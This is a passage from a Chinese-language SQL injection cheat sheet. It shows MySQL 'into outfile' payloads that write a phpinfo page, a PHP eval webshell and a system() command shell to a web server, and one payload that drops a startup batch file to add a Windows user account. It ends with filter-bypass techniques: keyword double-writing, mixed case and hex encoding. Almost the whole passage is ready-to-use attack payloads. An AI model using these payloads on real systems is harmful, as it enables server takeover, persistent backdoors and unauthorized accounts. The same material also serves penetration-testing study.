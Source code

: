 然后才能进行写入到文件中，下面是将内容`<?php phpinfo();?>`写入到文件E:\\\\1.php。

注意：

- windows系统下路径中一定要用双反斜杠。

- 写入的文件名不可以用十六进制，必须引号。

```
id=-1' union select 1, '<?php phpinfo();?>', 3 into outfile 'E:\\1.php' -- -  
```

#### 2. 写入webshell

```
id=-1' union select 1,'<?php @eval($_POST['x']);?>',3 into outfile 'E:\\1.php' -- -
```

#### 3. 利用outfile执行系统命令

利用注入漏洞执行系统命令。

- 第一种方法：写成bat文件，需要使用wamp环境搭建，需要系统权限才能执行。

```
id=-1' union select 1, "net user seven 123 /add",2,3,4,5,6 into outfile 'C:/Users/User/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/xxx.bat' -- -
```

- 第二种方法：写成php文件，用system函数执行用户输入。

```
id=1' union select 1,"<pre><body><?php @system($_GET['cc']);?></body></pre>",3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 into outfile 'C:/xxx/wwwroot/xxx.php' -- -
```



## 0x0e 绕过技巧

#### 1. 双写绕过

```
seleselectct、uniunionon、oorr等
```

#### 2. 大小写绕过

```
UniON、SelEct、Or、aNd等
```

#### 3. 编码绕过

有时候会过滤单引号、双引号，那就可以对需要引号包含起来的内容，进行十六进制编码，编码后就不需要引号了。

```
'admin' -> 0x61646d696e
例如
id=-1 and union select 1,password from users where username=0x61646d696e -- -
```

